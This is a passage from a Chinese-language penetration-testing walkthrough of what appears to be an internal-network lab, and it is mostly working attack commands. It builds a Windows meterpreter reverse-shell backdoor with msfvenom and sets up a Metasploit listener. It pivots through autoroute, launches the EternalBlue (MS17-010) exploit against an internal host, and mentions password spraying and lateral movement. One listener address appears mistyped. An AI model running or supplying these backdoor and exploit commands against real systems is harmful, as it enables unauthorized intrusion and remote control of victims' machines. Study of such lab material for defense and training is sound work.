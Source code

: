 或者直接生成msf的后门  
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.139.129 LPORT=5210 -f exe -o 5210.exe  
>   
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp  
> set lhost 192.168.2.129  
> set lport 1234  
> run  
  
  
  
建立路由  
  
<font style="color:rgb(51, 51, 51);">run autoroute -p //查看当前路由表</font>  
  
<font style="color:rgb(51, 51, 51);">run post/multi/manage/autoroute //添加当前路由表</font>  
  
  
注意：因为这是内网网段的机器，所以我们只是单纯的区执行这个永恒之蓝漏洞是完全不行的，我们得先设置监听器，到 第一台的主机  
  
  
use exploit/multi/handler  
  
<font style="color:rgb(51, 51, 51);">set payload windows/x64/meterpreter/reverse_tcp </font>  
  
set lhost 192.168.2.134  
  
set lport 4548  
  
![1747054179_6821ee631fa060103552d.png!small?1747054180633](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXxJkMlILorsm1eYPLL5nRiakwST0l4QKe4pomVpEnQ9aEttkfNrsqPFA/640?wx_fmt=jpeg&from=appmsg "")  
  
<font style="color:rgb(51, 51, 51);">use exploit/windows/smb/ms17_010_eternalblue</font>  
  
<font style="color:rgb(51, 51, 51);">set payload windows/x64/meterpreter/reverse_tcp </font>  
  
set rhost 192.168.2.129  
  
set rhosts 192.168.2.129  
  
set lhost 192.138.2.134  
  
set lport 4548  
  
上传后门，然后再转发上线  
  
成功上线  
### Windows10  
  
### 密码喷射  
  
再administrator  
  
![1747054216_6821ee88540791d035f0b.png!small?1747054217329](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXna56jbnpD9G2rAoYBazYBlxluxO6EepzfmjWic348EKDX2N8Nr2BsDw/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747054223_6821ee8fe3406b58f2904.png!small?1747054223767](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXhAicp3CM12KHib3LhkJNibVgHFXeqYichteektRibQcibJDkYVQbkbUcianqA/640?wx_fmt=jpeg&from=appmsg "")  
  
密码横向移动![1747054235_6821ee9bd245202dd5bbb.png!small?1747054236714](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX1CicBJ7pg6FQ26qBlicGopa19k33IOvXltic1McZviagjwTdTDH5GSZ7gA/640?wx_fmt=jpeg&from=appmsg "")  
  